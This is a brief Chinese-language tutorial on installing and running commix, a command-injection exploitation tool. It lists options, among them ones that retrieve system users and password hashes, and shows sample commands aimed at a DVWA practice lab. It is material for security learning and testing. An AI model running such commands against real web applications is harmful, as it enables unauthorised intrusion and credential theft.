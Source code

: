 Command Injection
=
安装方法
-
在https://github.com/commixproject/commix/releases下下载commix压缩包，直接解压即可(由于新版v2.4出现了问题，v2.2经尝试可行)

使用说明
-
### 基本要素
commix.py –url=”” –data=”” –cookie=””
commix.py为打开我们的commix脚本，其次还需要输入对应的攻击网址url，data与cookie的相关数据
### 更多用法
    Options:
      -h, --help            Show help and exit.
    Target:
      -u URL, --url=URL     Target URL.
    Request:
      -d DATA, --data=..    Data string to be sent through POST.
      --host=HOST           HTTP Host header.
      --referer=REFERER     HTTP Referer header.
      --user-agent=AGENT    HTTP User-Agent header.
      --cookie=COOKIE       HTTP Cookie header.
      --cookie-del=CDEL     Set character for splitting cookie values.
    Enumeration:
      --all               Retrieve everything.
      --sys-info          Retrieve system information.
      --users             Retrieve system users.
      --passwords         Retrieve system users password hashes.
      --privileges        Retrieve system users privileges.
      --ps-version        Retrieve PowerShell's version number.
      Detection:
      --level=LEVEL       Level of tests to perform (1-3, Default: 1).
更多用法请见https://github.com/commixproject/commix/wiki/Usage， https://tools.kali.org/exploitation-tools/commix

### 示例
DVWA
root@kali:~/commix# python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=127.0.0.1&Submit=Submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
更多示例请见https://github.com/commixproject/commix/wiki/Usage-Examples， https://tools.kali.org/exploitation-tools/commix

- source: https://tools.kali.org/exploitation-tools/commix
```
root@speit-PowerEdge-T430:/home/speit/Downloads/commix-2.1-20171003# python commix.py --url http://192.168.5.100/vulnerabilities/exec/ --data="ip=INJECT_HERE&Submit=Submit" --cookie="security=low; PHPSESSID=upjio7inblkt07rte0eagcg045"
```
